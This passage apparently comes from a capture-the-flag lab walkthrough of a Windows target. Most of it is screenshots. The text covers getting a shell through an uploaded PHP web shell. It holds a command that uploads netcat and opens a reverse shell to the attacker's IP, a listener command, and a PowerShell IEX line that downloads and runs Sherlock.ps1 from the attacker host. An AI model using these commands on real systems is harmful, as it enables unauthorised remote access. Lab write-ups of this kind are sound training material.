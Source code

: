 ![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224463976_image.png)

Sherlock.ps1 Results:

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557225430727_image.png)

*all basically says is to migrate to a 64bit process.*

## windows nc for reverse-shell

Windows notoriously does not have the best way to setup a reverse shell as to if we download a copy of it to the box we could use it to aid in the reverse shell.

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557223194055_image.png)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557223271301_image.png)

Netcat x86 (32-bit) & x64 Link: https://eternallybored.org/misc/netcat/

Extract and move to working directory and upload to target:

    10.10.10.9/ippsec.php?fupload=nc64.exe&fexec=nc64.exe -e cmd 10.10.15.1 8081

*since the file is being upload we can execute it directly after that.*

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224859616_image.png)

RUN

# Reverse-Shell
setup listener

    nc -lvnp 8081

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224835036_image.png)

(response)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557224910381_image.png)

*we have entered flavor country with a new shell in hand.*

## sherlock inside shell
    10.10.10.9/ippsec.php?fexec=echo "IEX(New-Object Net.WebClient)DownloadString('http://10.10.15.1:8000/Sherlock.ps1') | powershell -noprofile -

(results)

![](https://paper-attachments.dropbox.com/s_A6CD30097A191EC1D1DC522F07E437AFA9C9BBBEFEBB2A6C7047AE848EC02494_1557225505986_image.png)

*now works correctly as our netcat file was an x64 application. In this situation it saying that the 15-051 is not vulnerable but that is not actually the case.*
